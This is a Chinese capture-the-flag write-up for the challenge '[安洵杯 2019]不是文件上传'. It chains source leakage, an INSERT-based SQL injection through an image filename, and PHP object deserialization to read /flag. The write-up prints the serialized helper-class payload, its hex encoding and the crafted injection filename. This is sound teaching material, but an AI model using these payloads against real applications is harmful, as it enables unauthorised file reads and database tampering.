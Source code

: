 # 原创
：  [安洵杯 2019]不是文件上传

# [安洵杯 2019]不是文件上传

#### [安洵杯 2019]不是文件上传

## 考点

> 
信息泄漏、SQL注入、反序列化


## 思路

> 
在主页的源码下方有一个开发人员留的信息，可知网站的源码已经被上传的github上面了<br/> 而网站源码的名称就是网页页脚的wowouploadimage, github搜索这个名称，即可找到源码<br/> SQL注入 =&gt; 反序列化 =&gt; 读取Flag<br/> 在图片上传处，check函数并未对文件名(title)进行检测, 直接传递到最后的SQL语句当中。导致了SQL注入，并且属于Insert注入<br/> 审计代码后可知，图片数据在保存的时候，会将图片的高度和宽度进行序列化然后保存。在查看图片信息的页面(show.php)会对其进行反序列化<br/> 我们需要通过SQL注入修改保存的信息中的序列化的值来利用<br/> 在helper.php中的helper类中有一个__destruct魔术方法可以利用，通过调用view_files中的file_get_contents来读取flag


## Payload

```
反序列化payload生成：

&lt;?php
class helper {
    protected $ifview = True; 
    protected $config = "/flag";
}
$a = new helper();
echo serialize($a);
?&gt;

payload:
O:6:"helper":2:{s:9:"*ifview";b:1;s:9:"*config";s:5:"/flag";}
这里的属性值ifview和config都是protected类型的，所以需要将payload修改为：
O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:5:"/flag";}

```

```
正常上传图片的sql语句为：

INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES('TIM截图20191102114857','f20c76cc4fb41838.jpg','jpg','pic/f20c76cc4fb41838.jpg','a:2:{s:5:"width";i:1264;s:6:"height";i:992;}')

```

```
因为上传的文件名中不能有双引号，所以将payload进行16进制编码:
0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d

```

```
由于title处是我们能够控制的，所以构造文件名如下：

1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d),('1.jpg

```

